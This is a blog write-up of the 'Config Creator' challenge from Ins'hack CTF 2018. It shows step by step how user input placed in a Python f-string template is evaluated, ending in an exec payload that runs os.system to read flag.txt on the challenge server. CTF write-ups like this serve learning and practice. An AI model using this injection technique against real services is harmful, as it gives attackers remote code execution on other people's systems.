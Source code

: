 ```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Config Creator"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


As I'm currently into pwning things, I tried the pwn category at the Ins'hack CTF. And frankly, I really enjoyed spend time on their challenges. The first one was Config Creator. It was supposed to be hard, but had most validations than the other.
> I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

> Care to have a look?

> nc config-creator.ctf.insecurity-insa.fr 10000  

No binary to reverse so let's give it a first shot:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1
Config key? A
Config value? B
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3
template:
f"""
configuration [
    A = {A};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4
config:

configuration [
    A = B;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 6
Bye
```
Plenty of options... After playing with these, I tried several things but didn't get something until I sent some random hex values:
```
└───▶python -c "print('1\n\xff\n\xff\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
     = {};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
f-string: empty expression not allowed (<string>, line 5)
An error occurred, sorry

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
See this line ?
> f-string: empty expression not allowed (<string>, line 5)

I didn't know what was that, **f-string**. A quick look at google and I landed on [this article](https://hackernoon.com/a-closer-look-at-how-python-f-strings-work-f197736b3bdb). Apparently this is a new way to format strings. A quick example of this fearture would be:
```python
>>> a=1337
>>> f'Hello {a} ABCD'
'Hello 1337 ABCD'
```
At this point it's almost sure that we'll have to exploit it. Let's try to:
```
└───▶ python -c "print('1\na\nabc\n1\nprint(a)\nprint(a)\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
    a = {a};
    print(a) = {print(a)};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
abc

configuration [
    a = abc;
    print(a) = None;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
We managed to print the variable a (the 'abc'). It would be great if we could put "import os; os.system(\'cat flag.txt\')" in a variable and execute it. If we look at the python [built-in functions](https://docs.python.org/3/library/functions.html), we find a interesting function **exec**.
> exec(object[, globals[, locals]]) <br/>
> This function supports dynamic execution of Python code. object must be either a string or a code object. If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs).

Seems perfctly suitable. And yep, we can retrieve the flag with:
```shell
python -c "print('1\na\nimport os; os.system(\'cat flag.txt\')\n1\n' + 'exec(a)\n' + '1\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
```
